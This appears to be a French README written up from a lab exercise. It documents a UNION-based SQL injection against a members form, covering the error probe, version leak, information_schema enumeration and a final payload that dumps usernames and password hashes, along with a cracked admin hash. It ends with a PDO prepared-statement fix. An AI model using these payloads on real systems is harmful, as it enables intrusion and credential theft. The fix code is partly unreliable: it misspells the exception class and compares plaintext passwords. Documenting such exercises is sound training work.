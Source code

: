 # SQL INJECTION ADMIN MEMBERS

One Paragraph of project description goes here

## Etape 1: detection de la faille sql


Dans le formulaire des members, taper la commande suivante:
```
1'
```
Cela teste si le formulaire contient une erreur Mysql.


## Etape 2: detection de la version mySql
Nous savons aue le nombre de colonne est de 2
Pour connaitre la version de mysql, il suffit de taper la commande suivante:
```
1 or 1=1 union all select 1,convert(@@version using latin1)
```
On s'apercois que la version est > 5, si la version est < 5, alors il va falloir deviner les tables, ce aui n'est pas le cas ici.
Pour cela on a besoin de information_schema, il contient toutes les tables et colonnes de la base de données.


## Etape 3: DETECTION DES TABLES
Pour avoir le schema de la BDD et les noms de ses tables, on utilisent table_schema et  table_name

```
1 or 1=1 union all select table_schema, table_name from information_schema.tables
```
On demande a avoir le shema de la base de donée c'est a dire toute les tables qui sont liée avec differents utilisateurs ainsi que les noms des tables.
Ce qui nous interresent c'est la table Members_Brute_Force liée avec la table db_default.

## Etape 4: DETECTION DES COLUMNS


```
1 or 1=1 union all select table_name, column_name from information_schema.columns
```
On s'apercoit que la column username et password dependent de la table db_default.

## Etape 5: EXPLOIT

Le script d'exploit ressemblera alors a:

```
1 or 1=1 union all select password, username from Member_Brute_Force.db_default

```
root et admin on le meme hash md5: 3bf1114a986ba87ed28fc1b5884fc2f8, il faut decrypter le hash, cela correspond a shadow.
Il suffit maintenant de se connecter avec root ou admin.


## Comment s'en premunir ?

Utiliser la programmation php PDO et utilisé des requetes préparées. exemple:  

```
<?php

// On récupère les variables envoyées par le formulaire
$login = $_POST['login'];
$password = $_POST['password'];

// Connexion à la BDD en PDO
try { $bdd = new PDO('mysql:host=localhost;dbname=bdd','root',''); }
catch (Exeption $e) { die('Erreur : ' .$e->getMessage())  or die(print_r($bdd->errorInfo())); }

// Requête SQL sécurisée
$req = $bdd->prepare("SELECT * FROM utilisateurs WHERE login= ? AND password= ?");
$req->execute(array($login, $password));

?>

```
